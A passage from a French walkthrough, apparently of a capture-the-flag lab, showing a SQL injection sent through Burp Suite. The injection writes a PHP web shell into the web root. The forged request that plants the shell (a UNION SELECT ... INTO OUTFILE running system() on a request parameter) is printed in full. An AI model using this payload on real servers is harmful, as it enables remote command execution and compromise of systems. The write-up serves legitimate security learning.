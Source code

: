 ![Recherche de la version de la base](../assets/validation/sqli-avec-burp5.png)

On continue avec les injections jusqu'a tenter d'écrire dans le path de l'url un fichier que l'on va nommer **prueba.php** que l'on puisse executer en faisant appel a l'url! (L'injection sql va nous permettre d'envoyer le fichier dans le serveur)  

&nbsp;

Exemple de la query forgée dans burpsuite, faites défiler pour voir la fin de la commande : 


```
username=kiki&country=Afganistan' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -
```

&nbsp;

Et la sortie que genere le fichier php, l'erreur correspond au fait que nous n'avons pas passé de variable au paramettre cmd qui est attendu par le morceau de code php que l'on injecte.

![Recherche de la version de la base](../assets/validation/sqli-avec-burp6.png)
